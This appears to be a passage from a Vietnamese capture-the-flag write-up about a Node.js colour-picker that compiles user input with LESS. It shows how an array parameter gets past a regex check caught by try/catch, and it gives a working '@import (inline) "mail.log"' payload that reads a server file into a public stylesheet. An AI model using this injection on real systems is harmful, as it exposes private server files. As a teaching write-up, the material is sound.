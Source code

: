 ```js
  var css = "";

  for (var key in colorDict){

    try{

      if(!colorDict[key].match(/^#[\w\d]{6}$/)) return false;

    } 
    catch(error){
      console.log(error)
    }

    css += `@${key}:` + colorDict[key] + ";";

  }

  css = css + "body{ background-color: @bgcolor; color: @color; }";

  return css;
}
```
Ở đây nó sẽ lấy cặp key của chúng ta sau đó đưa vào try catch kiểm tra regex phải bắt đầu dấu # và nếu khác regex sẽ báo false và sau đó ngược lại nó đưa vào css  với key chúng ta chọn và sau khi đó <br>
```js
 if (css == false) return res.sendStatus(500);

  less.render(css.toString(), (error, output) => {
  
    if(error){
      return res.send(`Less Compile Error`);
    }

    fs.writeFileSync('./static/image.css', output['css']);
    
    return res.send(`ColorPicker Done`);
  
  })
```
nó sẽ ghi file của chúng ta ra /static/image.css sau đó chúng ta truy cập lấy được màu sắc với chúng ta pick ở đây đặc biệt tôi phát hiện nó sử dụng <b>less.render</b> ra biên dịch và sau khi tìm kiếm tôi phát hiện có lỗ hổng css injection từ less bằng cách đó chúng ta cần tìm cách đưa vào shell để đọc file mail.log đúng ko vậy bằng cách nào chúng ta có thể chèn vào ở phần màu sắc <br>
```note
colorPicker làm: css += \@${key}:` + colorDict[key] + ";"`.
Trước đó gọi colorDict[key].match(...) trong try { ... } catch(error) {}.
Nếu colorDict[key] là mảng (ví dụ bgColor[]=...), thì match không tồn tại → gọi sẽ ném lỗi → bị catch nuốt đi → không trả về false → hàm tiếp tục chèn nguyên giá trị mảng (dùng toString() → nối các phần bằng ,) vào CSS.
```
Bằng cách đó tôi truyền 1 kí tự đặc biệt bằng cách gửi 1 phần tử mảng kết quả trong LESS trở thành: <br>
```note
bgColor[] = ;@import (inline) "mail.log";
fontColor = #ffffff
```
Khi qua colorPicker, chuỗi CSS tạo ra sẽ như: <br>
```note
@bgcolor:#000000;@import (inline) "mail.log";;
@color:#ffffff;
body{ background-color: @bgcolor; color: @color; }
```
<img width="949" height="528" alt="image" src="https://github.com/user-attachments/assets/0eb938a6-e456-4291-be5c-1da11f92c96a" /> <br>